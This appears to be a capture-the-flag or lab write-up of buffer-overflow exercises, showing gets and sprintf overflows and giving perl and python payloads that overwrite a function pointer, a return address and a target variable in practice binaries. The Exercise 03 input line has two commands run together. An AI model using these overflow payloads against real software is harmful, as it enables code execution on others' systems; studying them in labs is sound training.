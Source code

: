 
Run:`./bin`


Result: Success message appears.

[exercise02](img/02.png)

## Exercise 03: Function Pointer Overwrite

Tools: gdb, objdump, perl, strings

Overview: The program uses gets, allowing a function pointer to be overwritten.

Exploit:

Find the target function:

objdump -d ./bin | grep win


Address: 0x08048424

Input: `perl -e 'print "A"x64 . "\x24\x84\x04\x08"' | ./binpython3 -c 'print("A"*76 + "\xf4\x83\x04\x08")' | ./bin`


Result: Execution jumps to the win function.

[exercise03](img/03.png)
[exercise03_2](img/03_2.png)

## Exercise 04: Return Address Hijacking

Tools: objdump, gdb

Overview: The binary uses gets, allowing the return address to be overwritten to call a win function.

Exploit:

Address of win: 0x080483f4

Input: `python3 -c 'print("A"*76 + "\xf4\x83\x04\x08")' | ./bin`


Result: Success message appears.

[exercise04](img/04.png)

## Exercise 05: Overwriting Target Variable

Tools: objdump, strings

Overview: sprintf allows a buffer overflow to modify a target variable.

Exploit:

Address: 0xdeadbeef

Input: `./bin $(python3 -c 'print("A"*64 + "\xef\xbe\xad\xde")')`
